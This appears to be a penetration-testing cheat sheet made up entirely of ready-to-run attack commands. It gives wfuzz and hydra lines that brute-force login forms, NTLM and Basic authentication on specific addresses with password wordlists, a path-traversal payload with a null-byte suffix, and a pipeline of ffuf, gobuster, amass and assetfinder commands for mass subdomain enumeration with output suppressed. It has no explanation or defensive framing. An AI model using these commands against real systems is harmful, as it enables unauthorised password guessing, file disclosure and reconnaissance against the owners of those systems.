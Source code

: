 

##  wfuzz POST 
wfuzz --hc 404 -c -z list,admin -z file,/root/Documents/SecLists/Passwords/korelogic-password.txt -d "user=FUZZ&password=FUZ2Z" http://192.168.30.161/admin/index.php 


##  hydra POST 
hydra 192.168.30.161 -s 80 http-form-post "/admin/index.php:user=^USER^&password=^PASS^:Moved Temporarily" -l admin -P /root/Documents/SecLists/Passwords/korelogic-password.txt -t 20 


##  wfuzz NTLM 
wfuzz -c --ntlm "admin:FUZZ" -z file,/root/Documents/SecLists/Passwords/darkc0de.txt --hc 401 https://<ip>/api 


##  wfuzz Basic Auth through Proxy 
wfuzz -c --hc 404,400,401 -z file,/root/Documents/Audits/ActivosProduban/names.txt -z file,/root/Documents/Audits/ActivosProduban/names.txt --basic "FUZZ:FUZ2Z" -p 127.0.0.1:8080 https://<ip>/api/v1/


##  
wfuzz -u http://10.10.10.10/hello.php?dir=../../../../../../../../../FUZZ%00 -w /usr/share/wfuzz/wordlist/general/common.txt


##  
ffuf -u http://FUZZ.$DM/ -t 100 -p '1.0-2.0' -w ~/wordlists/subdomains.txt -H "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.77 Safari/537.36" -mc 200 -r -o .tmp/ffuf.json -s 2> /dev/null &> /dev/null


##  
gobuster dns -d $DM --no-error -z -q -t 100 -w ~/wordlists/subdomains.txt 2> /dev/null | sed 's/Found: //g' | anew -q .tmp/gobuster.list
 
 
##  
amass enum -active -brute -w ~/wordlists/subdomains.txt -d $DM -o .tmp/amassact.list &> /dev/null
    cat .tmp/ffuf.json 2> /dev/null | jq -r '.results[] | .host' 2> /dev/null | anew -q .tmp/ffuf.list && rm -rf .tmp/ffuf.json


##  
cat .tmp/*.list | grep -v "*" | sed '/@\|<BR>\|\_\|*/d' | grep "$DM" | anew -q .tmp/domains


##  
xargs -a .tmp/domains -P 50 -I % bash -c "assetfinder --subs-only % | anew -q .tmp/seconddomains.list" 2> /dev/null


##  
xargs -a .tmp/domains -P 10 -I % bash -c "amass enum -passive -d %" 2> /dev/null | anew -q .tmp/seconddomains.list
